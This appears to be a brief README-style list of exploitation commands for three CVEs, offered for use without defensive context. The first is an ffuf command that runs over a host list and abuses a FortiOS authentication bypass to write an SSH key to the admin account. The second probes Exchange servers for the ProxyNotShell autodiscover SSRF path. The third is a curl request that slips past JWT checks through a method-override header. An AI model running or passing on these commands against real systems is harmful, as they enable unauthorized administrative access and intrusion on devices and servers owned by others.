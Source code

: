 
 ### CVE-2022-40684
##### @h4x0r_dz
```
 ffuf -w "host_list.txt:URL" -u "https://URL/api/v2/cmdb/system/admin/admin" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r
 ```

### CVE-2022-41040
##### @unknown
```
 ffuf -w "urllist.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```
### bypasses JWT checking by using the X-HTTP-Method-Override request header!
##### CVE-2023-30845
```
 curl --request POST \
     --header "X-HTTP-Method-Override: PUT" \
     --header "Content-Type: application/json" \
     --data '{"username":"xyz"}' \
     https://my-endpoint.com/api
```
